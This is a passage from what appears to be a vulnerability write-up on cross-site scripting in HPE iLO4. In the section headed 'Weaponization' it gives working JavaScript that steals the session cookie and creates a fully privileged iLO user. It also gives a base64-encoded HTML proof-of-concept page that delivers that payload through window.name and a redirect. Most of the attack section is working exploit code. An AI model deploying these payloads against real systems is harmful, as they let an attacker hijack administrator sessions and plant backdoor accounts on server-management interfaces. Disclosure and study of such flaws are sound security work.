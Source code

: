 #### -..- Weaponization -..-

Now that we know we can execute arbitrary Javascript code, let's see how much
damage an attacker could potentially cause.

Within iLO, there is a user management section that allows creating, editing,
and deleting users with different levels of permissions.

![]({% img xss-applet-user-admin.png %}){:class="imgcenter"}

The most obvious attack would be to create a user with elevated permissions
using the XSS. To do this, we simply need to inject the following Javascript
code (omitting the comments):

{% highlight javascript %}
// We obtain the session cookie. This is only possible because it is not HttpOnly!
var session_key = document.cookie.split("; ").filter(x => x.indexOf("sessionKey") == 0)[0].split("=")[1];
// We generate a request that creates a user with the highest level of privileges.
var xmlhttp = new XMLHttpRequest();
var endpoint = "https://ilo4-01.madoka.pink/json/user_info";
xmlhttp.open("POST", endpoint);
xmlhttp.setRequestHeader("Content-Type", "application/json");
xmlhttp.send(JSON.stringify({
    "login_name": "xsspoc",
    "user_name": "xsspoc",
    "password": "12345678",
    "remote_cons_priv": 1,
    "virtual_media_priv": 1,
    "reset_priv": 1,
    "config_priv": 1,
    "user_priv": 1,
    "method": "add_user",
    "session_key": session_key
}));
{% endhighlight %}

To embed this in the malicious site, we encode it in base64 to avoid issues
with quotes or other special characters.

{% highlight html %}
<!DOCTYPE HTML>
<html>
    <head>
        <title>HPE iLO4 XSS PoC</title>
    </head>
    <script>
        s = '"><script>eval(atob("dmFyIHNlc3Npb25fa2V5ID0gZG9jdW1lbnQuY29';
        s += 'va2llLnNwbGl0KCI7ICIpLmZpbHRlcih4ID0+IHguaW5kZXhPZigic2Vzc2l';
        s += 'vbktleSIpID09IDApWzBdLnNwbGl0KCI9IilbMV07CnZhciB4bWxodHRwID0';
        s += 'gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7CnZhciBlbmRwb2ludCA9ICJodHRwczo';
        s += 'vL2lsbzQtMDEubWFkb2thLnBpbmsvanNvbi91c2VyX2luZm8iOwp4bWxodHR';
        s += 'wLm9wZW4oIlBPU1QiLCBlbmRwb2ludCk7CnhtbGh0dHAuc2V0UmVxdWVzdEh';
        s += 'lYWRlcigiQ29udGVudC1UeXBlIiwgImFwcGxpY2F0aW9uL2pzb24iKTsKeG1';
        s += 'saHR0cC5zZW5kKEpTT04uc3RyaW5naWZ5KHsKICAgICJsb2dpbl9uYW1lIjo';
        s += 'gInhzc3BvYyIsCiAgICAidXNlcl9uYW1lIjogInhzc3BvYyIsCiAgICAicGF';
        s += 'zc3dvcmQiOiAiMTIzNDU2NzgiLAogICAgInJlbW90ZV9jb25zX3ByaXYiOiA';
        s += 'xLAogICAgInZpcnR1YWxfbWVkaWFfcHJpdiI6IDEsCiAgICAicmVzZXRfcHJ';
        s += 'pdiI6IDEsCiAgICAiY29uZmlnX3ByaXYiOiAxLAogICAgInVzZXJfcHJpdiI';
        s += '6IDEsCiAgICAibWV0aG9kIjogImFkZF91c2VyIiwKICAgICJzZXNzaW9uX2t';
        s += 'leSI6IHNlc3Npb25fa2V5Cn0pKTsK"))<\/script><embed';
        window.name = s;
        window.location ='https://ilo4-01.madoka.pink/html/java_irc.html?lang=en';
    </script>
</html>
{% endhighlight %}